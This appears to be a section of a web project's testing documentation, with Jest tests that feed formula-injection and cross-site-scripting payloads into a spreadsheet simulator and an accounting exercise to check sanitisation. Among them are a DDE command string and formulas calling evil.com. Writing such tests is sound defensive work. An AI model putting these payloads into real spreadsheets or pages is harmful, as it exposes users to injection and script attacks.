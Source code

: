 
## Security Testing

### Input Validation Testing
```javascript
// Test malicious input handling
describe('Security - Input Validation', () => {
    test('Spreadsheet formula injection protection', () => {
        const simulator = new SpreadsheetSimulator(container);
        
        // Attempt various injection attacks
        const maliciousInputs = [
            '=cmd|"/c calc"!A1',
            '=HYPERLINK("http://evil.com","Click")',
            '=IMPORTDATA("http://evil.com/data")',
            '<script>alert("xss")</script>',
            '"><script>alert("xss")</script>'
        ];
        
        maliciousInputs.forEach(input => {
            simulator.setData({ 'A1': input });
            const result = simulator.getCellValue('A1');
            
            // Should not execute as formula or script
            expect(result).not.toContain('calc');
            expect(result).not.toContain('script');
        });
    });
    
    test('Exercise input sanitization', () => {
        const exercise = new AccountCategorizationExercise('test');
        
        const maliciousInputs = [
            '<script>alert("xss")</script>',
            'javascript:alert("xss")',
            '"><img src=x onerror=alert("xss")>'
        ];
        
        maliciousInputs.forEach(input => {
            exercise.placeAccount(input, 'Assets');
            
            // Should be sanitized
            expect(document.body.innerHTML).not.toContain('<script>');
            expect(document.body.innerHTML).not.toContain('javascript:');
        });
    });
});
```

### Content Security Policy Testing
Verify CSP headers prevent:
- Inline script execution
- External resource loading from unauthorized domains
- eval() and Function() constructor usage
- Unsafe dynamic code execution
